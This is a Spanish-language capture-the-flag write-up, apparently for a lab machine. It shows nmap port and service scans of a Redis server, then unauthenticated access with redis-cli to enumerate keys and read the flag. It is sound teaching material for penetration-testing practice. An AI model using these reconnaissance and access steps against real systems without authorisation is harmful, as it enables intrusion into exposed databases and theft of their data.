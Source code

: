 🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.130.151

PING 10.129.130.151 (10.129.130.151) 56(84) bytes of data.
64 bytes from 10.129.130.151: icmp_seq=1 ttl=63 time=166 ms

--- 10.129.130.151 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 165.615/165.615/165.615/0.000 ms
```

> **Sistema operativo**: Linux

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vv 10.129.130.151 -oG openPorts

PORT     STATE SERVICE REASON
6379/tcp open  redis   syn-ack ttl 63
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 6379 -sCV 10.129.130.151 -oN targeted

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```

| Puerto | Servicio | Versión                     |
| ------ | -------- | --------------------------- |
| 6379   | redis    | Redis key-value store 5.0.7 |
¿Qué es **Redis**?
[Web Oficial](https://redis.io/)

🗹 Buscar scripts de **nmap** relacionados al servicio **redis**:

```shell
find /usr/share/nmap/scripts -name *redis* 2>/dev/null

/usr/share/nmap/scripts/redis-info.nse
/usr/share/nmap/scripts/redis-brute.nse
```

🗹 Ejecutar scripts relacionados al servicio **redis** sobre el puerto **6379**:

```shell
sudo nmap -p 6379 --script "*redis*" 10.129.130.151

PORT     STATE SERVICE
6379/tcp open  redis
| redis-info: 
|   Version: 5.0.7
|   Operating System: Linux 5.4.0-77-generic x86_64
|   Architecture: 64 bits
|   Process ID: 752
|   Used CPU (sys): 2.199500
|   Used CPU (user): 2.184066
|   Connected clients: 1
|   Connected slaves: 0
|   Used memory: 839.48K
|   Role: master
|   Bind addresses: 
|     0.0.0.0
|     ::1
|   Client connections: 
|_    10.10.14.71
```

🗹 Acceder a la base de datos de **redis**:

```shell
redis-cli -h 10.129.130.151

10.129.130.151:6379> 
```
# Flag

 🗹 Ejecutar los siguientes comandos para obtener la flag:

```shell
10.129.130.151:6379> info keyspace
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
(1.23s)
10.129.130.151:6379> select 0
OK
10.129.130.151:6379> keys *
1) "flag"
2) "temp"
3) "numb"
4) "stor"
(1.05s)
10.129.130.151:6379> get flag
```